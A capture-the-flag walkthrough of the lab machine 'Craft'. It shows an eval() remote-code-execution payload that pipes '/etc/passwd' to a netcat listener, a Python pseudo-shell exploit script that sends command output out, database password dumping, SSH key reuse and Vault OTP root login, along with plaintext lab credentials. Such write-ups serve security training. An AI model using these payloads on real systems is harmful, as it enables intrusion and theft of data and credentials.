

# USER

On the `https` service is a number of links. 

- Gogs (Git hosting service)
- Craft API (Seems like a custom api)

Present on the `gog` instance is a git repository called `craft-api`. After looking at commits I have found some credentials baked into a test script for `dinesh`.

```
dinesh:4aUh0A8PbVJxgd
```

The issue commited by `dinesh` has a vulnerability in it. It uses `eval` to comapare the value, this means we can create a RCE!


For example passing the payload:
```
{"name":"X","brewer":"X", "style": "X", "abv": "__import__('os').system('cat /etc/passwd | nc 10.10.14.5 6868')"}
```

Will print us out the output to a listening `netcat` session!

Using the script below we can create a dumb terminal

```python
from requests import Session
import subprocess
import json
import requests

from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

"""
Script that exploits a RCE vulnerability from a python `eval()` call
to create a simple shell
"""

sesssion = Session()
sesssion.auth = ("dinesh", "4aUh0A8PbVJxgd")

url_base = "https://api.craft.htb/api/"


# Receves the auth tokens
r = sesssion.get(url_base + "auth/login", verify=False)
token_req = json.loads(r.text)

while True:

    command = input("> ")

    s = subprocess.Popen("nc -lvnp 6868", shell=True)

    data={
            "name":"X",
            "brewer":"X", 
            "style": "X", 
            "abv": f"__import__('os').system('{command} | nc 10.10.14.5 6868')"
        }

    r = sesssion.post(url_base + "brew/", 
        headers={
            "X-Craft-API-Token": token_req['token'],
            "Content-Type": "application/json"
        },
        data=json.dumps(data),
        proxies={
            # "https": "http://127.0.0.1:8080"
        },
        verify=False
    )
```

To get an actual shell, we will us this to upload a python shell file and execute it.

This gives us a shell on the box. After a little enum we can see that we're in a `docker` container.

With an edit for the dbtest script on the machine we can leak the passwords of all the users:

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT * FROM user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

This gives us:

```
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

The `gilfoyle` account has a hidden repository with `ssh` keys present!

We can use these to log into the box as `gilfoyle` and circumvent the docker container.

This lets us grab the `user.txt`!


# ROOT

Looking around further into the repo we see a script to expose secrets:

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

Looking into the script further we can see that `vault` holds secrets but also can provide one time passwords for ssh login.

Initally I though that I was connecting to the `vault` service at 172.20.0.2. 

However, looking at the documentation and seeing this image:


Prompted me to try logging into the service like so:

```
vault ssh root@localhost
```

After placing the `opt` into the password prompt I was logged in! This provides me access to the `root.txt`.